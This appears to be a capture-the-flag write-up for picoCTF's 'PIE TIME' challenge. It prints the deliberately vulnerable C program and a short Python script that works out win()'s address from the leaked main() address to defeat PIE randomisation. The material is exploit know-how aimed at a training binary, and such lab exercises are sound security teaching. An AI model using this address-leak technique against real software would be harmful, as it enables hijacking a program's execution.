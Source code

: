 # PIE TIME Challenge

## Challenge Description
```
Can you try to get the flag? Beware we have PIE!
Additional details will be available after launching your challenge instance.

Hint: Can you figure out what changed between the address you found locally and in the server output?
```

Challenge Link: https://play.picoctf.org/practice/challenge/490

## Solution

Given vuln.c file and the binary of the file

```
┌──(hahmed㉿kali)-[~/Downloads]
└─$ cat vuln.c    
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

### 1. Understand what the program is doing 
The program prints the address of main(), which leaks an address inside the binary. It can be exploited by redirecting execution to the win() function by supplying its address.

### 2. Calculate the win_address.
  #### Get the win() and main() offset
  ```
  objdump -d vuln | grep -E "win|main"
  ```
  
  ![Screenshot 2025-03-15 232233](https://github.com/user-attachments/assets/fe906c03-8bfa-42c2-bfce-4bc5dd1ae72a)
  
  
  #### Use python script to calculate. Enter leaked main address given in the running instance into the script.
     
  ```
  # Offsets from objdump
  win_offset = 0x12a7
  main_offset = 0x133d
  
  # Replace with the actual leaked address of main()
  leaked_main = int(input("Enter leaked main address (hex): "), 16)
  
  # Calculate win()'s address
  win_addr = leaked_main + (win_offset - main_offset)
  
  print(f"Calculated win() address: {hex(win_addr)}")
  ```
  ![Screenshot 2025-03-15 232621](https://github.com/user-attachments/assets/3a634634-87b6-47aa-9488-f602da8bc71c)
   

### 3. Put the calculated win() address into the running instance of the program. This will get the flag.
![Screenshot 2025-03-15 232707](https://github.com/user-attachments/assets/0a960772-844b-4467-8046-b2306ff29bb8)



